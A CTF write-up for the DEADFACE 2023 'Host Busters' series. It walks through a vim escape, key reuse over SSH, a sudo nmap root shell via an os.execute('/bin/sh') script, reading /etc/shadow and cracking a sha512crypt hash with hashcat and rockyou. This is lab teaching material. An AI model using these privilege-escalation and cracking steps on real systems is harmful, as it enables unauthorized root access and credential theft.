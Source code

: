 ```yaml
---
title: DEADFACE CTF 2023 - Host Busters
date: Mon Oct 23 02:11:35 AM +04 2023
categories: [Writeup]
tags: [ctf,deadface,deadface2023,forensics,pwn]
---
```


## Host Busters 1

Created by: **syyntax**

Turbo Tactical has gained access to a DEADFACE machine that belongs to  `gh0st404`. This machine was used to scan one of TGRI’s websites. See if you can find anything useful in the  `vim`  user’s directory.

_On a side note, it’s also a good idea to collect anything you think might be useful in the future for going after DEADFACE._

Submit the flag as  `flag{flag_here}`.

`vim@gh0st404.deadface.io`

Password:  `letmevim`

### Solution

You're given an ssh host, after logging in you're automatically placed into vim. There's 3 ways (which I found) to solve the challenge.

1. Be a chad Vim user D:   `:E` -> To exit file and go to directory view, go up a directory, go to `vim` home, open flag file.
2. Type `:ter` to open subterminal and same as above.
3. Type `:shell` to gain fully interactive shell, defaults to /bin/sh, type `bash` to switch to bash.

```powershell
➜ ssh vim@gh0st404.deadface.io
...
Type: `:shell`
$ ls
hostbusters1.txt
$ cat ho*
flag{esc4P3_fr0m_th3_V1M}
```

> Flag: flag{esc4P3_fr0m_th3_V1M}
{: .prompt-tip }

## Host Busters 2 

Created by: **syyntax**

Now that you’ve escaped out of  `vim`, scope out and characterize the machine. See if there are any other flags you can find without having to escalate to another user. 

### Solution

Probably the trickiest of all, there should be a flag somewhere but without escalating to other user. 

`sudo -l` came empty handed.

```bash
vim@7ee9ba1f9007:~$ sudo -l
Matching Defaults entries for vim on 7ee9ba1f9007:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User vim may run the following commands on 7ee9ba1f9007:
    (ALL : ALL) NOPASSWD: /etc/init.d/ssh start
```

No interesting processes
```bash
vim@7ee9ba1f9007:~$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
vim            1  0.0  0.0   2576   888 pts/0    Ss   21:09   0:00 /bin/sh /usr/bin/start
vim            8  0.0  0.0   1036   744 pts/0    S    21:09   0:00 /usr/bin/srv
vim            9  0.2  0.0  11692  9000 pts/0    Sl   21:09   0:00 /bin/vim /home/gh0st404/config
vim           11  0.0  0.0   2576   904 pts/0    S    21:09   0:00 sh
vim           12  0.0  0.0   4188  3528 pts/0    S    21:09   0:00 bash
root          21  0.0  0.0  15404  3412 ?        Ss   21:09   0:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
vim           28  0.0  0.0   8088  3936 pts/0    R+   21:09   0:00 ps aux
```

gh0st404 had some files which had nmap scans of website, so I thought some port might be open. `nmap` was taking ages so I just checked for `netstat`.

```bash
vim@7ee9ba1f9007:~$ netstat -a
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp6       0      0 [::]:22                 [::]:*                  LISTEN
udp        0      0 0.0.0.0:9023            0.0.0.0:*
```

A weird connection, lets try connecting.

```bash
# Dont forget `-u` for UDP!
vim@7ee9ba1f9007:~$ nc -u localhost 9023 
# Hit enter to get response
flag{Hunt_4_UDP_s3rv3r}
```
> Flag: flag{Hunt_4_UDP_s3rv3r}
{: .prompt-tip }

## Host Busters 3 

Created by: **syyntax**

Continue characterizing the machine. Is there any way you can escalate to a user that has permissions the  `vim`  user does not have? Find the flag associated with this user. 

### Solution

`hostbusters3.txt` can be found in the directory of user `gh0st404`, but we dont have permission to read the file, only the author. `gh0st404` has left an interesting file: id_rsa, we can use this private key to login using ssh without password since private key takes care of it.

```bash
vim@7ee9ba1f9007:/home/gh0st404$ ls -alh
total 60K
drwxrwxr-x 1 gh0st404 gh0st404 4.0K Jul 31 02:24 .
drwxrwxr-x 1 root     root     4.0K Jul 29 23:05 ..
-rw------- 1 gh0st404 gh0st404  214 Jul 29 23:02 .bash_history
-rw-r--r-- 1 gh0st404 gh0st404  220 Apr 23 21:23 .bash_logout
-rw-r--r-- 1 gh0st404 gh0st404 3.5K Apr 23 21:23 .bashrc
drwxrwxr-x 1 gh0st404 gh0st404 4.0K Jul 29 23:05 .keys
-rw-r--r-- 1 gh0st404 gh0st404  807 Apr 23 21:23 .profile
drwx------ 1 gh0st404 gh0st404 4.0K Jul 29 23:05 .ssh
-rw-rw-r-- 1 gh0st404 gh0st404   47 Jul 29 23:05 config
-rw------- 1 gh0st404 gh0st404   34 Jul 29 23:05 hostbusters3.txt
-rw-rw-r-- 1 gh0st404 gh0st404 2.6K Jul 29 23:05 id_rsa
-rw-r--r-- 1 gh0st404 gh0st404  958 Jul 29 23:05 tgri-alive.xml
-rw-r--r-- 1 gh0st404 gh0st404  12K Jul 29 23:05 tgri-scan.xml
vim@7ee9ba1f9007:/home/gh0st404$ ssh localhost -l gh0st404 -i id_rsa
...
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
...
gh0st404@7ee9ba1f9007:~$ cat hostbusters3.txt
flag{Embr4c3_th3_K3y_t0_5ucc355!}
```

> Flag: flag{Embr4c3_th3_K3y_t0_5ucc355!}
{: .prompt-tip }

## Host Busters 4 

Created by: **syyntax**

TGRI believes a sensitive project proposal was compromised in a recent attack from DEADFACE. Find the proposal and submit the flag associated with this document. 

### Solution

`gh0st404` has an interesting permission, no sudo on nmap -> [GTFOBins nmap](https://gtfobins.github.io/gtfobins/nmap/)

```bash
gh0st404@7ee9ba1f9007:~$ sudo -l
Matching Defaults entries for gh0st404 on 7ee9ba1f9007:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User gh0st404 may run the following commands on 7ee9ba1f9007:
    (ALL) NOPASSWD: /usr/bin/nmap
    (ALL : ALL) NOPASSWD: /etc/init.d/ssh start
```

If you noticed `spookyboi` had some pdf in his directory, lets try seeing it.

```bash
gh0st404@7ee9ba1f9007:~$ TF=/tmp/letmein
gh0st404@7ee9ba1f9007:~$ echo 'os.execute("/bin/sh")' > $TF
gh0st404@7ee9ba1f9007:~$ sudo nmap --script=$TF
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-22 21:26 UTC
NSE: Warning: Loading '/tmp/letmein' -- the recommended file extension is '.nse'.
# root # <-- whoami # Shell kinda wacky...
# cd /home/sp*
# cat pro*
...
startxref
116
%%EOF
SG9zdCBCdXN0ZXJzIDQ6IGZsYWd7QWJ1czNfb0ZfcDB3M1J9Cg==
# exit
gh0st404@7ee9ba1f9007:~$ echo 'SG9zdCBCdXN0ZXJzIDQ6IGZsYWd7QWJ1czNfb0ZfcDB3M1J9Cg==' | base64 -d
Host Busters 4: flag{Abus3_oF_p0w3R}
```

> Flag: flag{Abus3_oF_p0w3R}
{: .prompt-tip }

## Host Busters 5
 
Created by: **syyntax**

See if you can crack  `gh0st404`’s password. Based on Ghost Town conversations, we suspect the password is found in common wordlists. 

### Solution

User passwords in linux systems are stored in `/etc/shadow` and common wordlist for passwords is `rockyou.txt`

Gain root shell from `nmap` and read shadow.

```bash
# cat /etc/shadow
...
mort1cia:$6$53820c565eca77b2$WVK13lCDwtn1/DjcyCktOFkZBb8GX/s0N.lHv8nqRTdIcUFaN6UR1t2iadYXU7bR0DD8P3.JzNcW.ne5vgDfO.:19568:0:99999:7:::
spookyboi:$6$238114ed7adfd724$8mKfFn9ywaU8SV0iQxgi/b8PRA.17ZCU77A9uwQzag/pTYMRbdKVADKoB7EWbU539xg.vy1ZP21Sy.B1WIKvA0:19568:0:99999:7:::
vim:$6$d782b019e05a0a3f$0BP3fPEfLmd7P2WPrXlghsdLH.goxQwvxAyvkDbSYuqidXWhlgtT5f.HXpM1cx8KdgUyfOzDZw2G9O5CoucVL0:19568:0:99999:7:::
gh0st404:$6$5d63619132db26f0$4FF5/xxtU1.OPzv2OdnWmB0mG5kqyMGUCAW8crE5ZqS24v6i1sM806eh8SigsZLxeJs/EtK0RJuB.eD.wTjLp/:19568:0:99999:7:::
```

Start cracking

```bash
└─$ echo '$6$5d63619132db26f0$4FF5/xxtU1.OPzv2OdnWmB0mG5kqyMGUCAW8crE5ZqS24v6i1sM806eh8SigsZLxeJs/EtK0RJuB.eD.wTjLp/' > hash

└─$ hashcat --show hash
...
1800 | sha512crypt $6$, SHA512 (Unix) | Operating System
...

└─$ hashcat -m 1800 -a 0 hash $rockyou # <- rockyou.txt 
...

└─$ hashcat --show hash               
...
$6$5d63619132db26f0$4FF5/xxtU1.OPzv2OdnWmB0mG5kqyMGUCAW8crE5ZqS24v6i1sM806eh8SigsZLxeJs/EtK0RJuB.eD.wTjLp/:zaq12wsx
...
```

> Flag: flag{zaq12wsx}
{: .prompt-tip }